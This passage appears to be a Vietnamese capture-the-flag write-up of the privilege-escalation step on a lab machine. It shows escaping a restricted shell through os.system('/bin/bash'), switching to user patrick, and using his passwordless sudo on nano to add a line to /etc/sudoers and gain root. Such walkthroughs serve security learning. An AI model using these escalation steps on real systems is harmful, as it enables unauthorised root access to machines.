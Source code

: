 ```
```

## Privilege Escalation

Shell hiện tại khiến ta chỉ có thể thao tác một số lệnh với hệ thống. Spawn shell để thoải mái thao tác hơn https://ed4m4s.blog/spawning-a-shell: 

```sh
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
intern:~$ echo os.system('/bin/bash') 
intern@development:~$ whoami
intern
```

Tìm kiếm cách để leo thang đặc quyền:


```sh
intern@development:~$ sudo -l
[sudo] password for intern: 
Sorry, user intern may not run sudo on development.
```

Thử chuyển sang user `patrick`:

```sh
intern@development:~$ su patrick
Password: 
patrick@development:/home/intern$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
```

User này có quyền sudo với trình soạn thảo văn bản nano và vim, tiến hành sửa file `etc/sudoers` để nâng lên quyền root bằng cách thêm dòng sau:

```
patrick ALL=(ALL:ALL) ALL
```

```sh
patrick@development:/home/intern$ sudo nano /etc/sudoers
patrick@development:/home/intern$ sudo su
[sudo] password for patrick: 
root@development:/home/intern# whoami
root
```